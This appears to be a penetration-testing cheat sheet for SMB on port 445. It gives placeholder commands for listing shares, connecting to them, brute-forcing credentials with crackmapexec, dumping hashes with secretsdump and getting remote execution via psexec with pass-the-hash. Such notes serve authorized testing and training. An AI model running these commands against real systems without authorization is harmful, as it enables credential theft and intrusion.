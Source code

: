 # 445 - SMB

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RPORT>
smbclient //<RHOST>/<share>
smbget -R smb://<RHOST>/<share>
```

## Listing shares

```text
smbclient -N -L <target>
smbclient -U <user> -L <target>
smbmap -H <target> -u <user> -p <pass/hash>
crackmapexec smb --shares <target> -u <user> -p <pass>
```

## Connecting to share

```text
smbclient [-P <user>] //<target>/<share>
mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## SMB commands

```text
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## Bruteforcing

```text
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## secretsdump

```text
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```text
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```text
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

## Default shares

```text
ADMIN$
C$
IPC$
```

